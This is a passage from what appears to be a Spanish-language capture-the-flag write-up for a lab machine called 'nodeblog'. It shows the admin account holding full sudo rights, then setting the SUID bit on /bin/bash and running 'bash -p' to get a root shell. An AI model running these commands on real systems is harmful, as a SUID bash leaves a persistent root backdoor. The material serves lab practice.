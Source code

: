 ```ruby
[sudo] password for admin: 
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```

Podemos ver que como el usuario admin podemos ejecutar lo que sea, asi que simplemente podemos darle permisos SUID la bash y luego ejecutar un **bash -p** y ya seriamos root

```ruby
sudo chmod u+s /bin/bash
```

```ruby
bash -p
```

```ruby
admin@nodeblog:/home$ sudo chmod u+s /bin/bash
admin@nodeblog:/home$ bash -p
bash-5.0# whoami
root
bash-5.0#
```
Eso ha sido todo, gracias por leer ❤
